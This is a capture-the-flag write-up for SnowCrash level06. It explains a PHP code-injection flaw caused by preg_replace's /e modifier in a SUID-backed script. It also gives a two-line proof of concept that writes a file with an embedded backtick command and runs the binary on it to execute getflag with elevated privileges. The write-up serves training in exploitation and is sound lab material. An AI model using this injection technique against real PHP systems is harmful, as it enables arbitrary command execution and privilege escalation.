

# Level06 – SnowCrash

## Objective
Retrieve the flag for `level06` by exploiting a vulnerable SUID PHP script.

## Reconnaissance
The home directory contains:
- A SUID binary `level06`
- A PHP script `level06.php` executed by the binary
Inspecting level06.php reveals the following critical code:
```bash
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

### Vulnerability
The vulnerability lies in:
```bash
preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```
The `/e` modifier causes the replacement to be evaluated as PHP code.
This allows arbitrary PHP code execution if we control the file content passed as argument.
Because the binary is SUID and owned by `flag06`, injected code executes with `flag06` privileges.
This is a classic PHP code injection via unsafe `preg_replace()` usage.

## Exploitation
1. Create a malicious file:
```bash
echo '[x ${`getflag`}]' > /tmp/test
```
2. Execute the vulnerable binary:
```bash
./level06 /tmp/test
```
The injected payload triggers command execution via PHP evaluation and executes `getflag` with `flag06` privileges.

## Flag


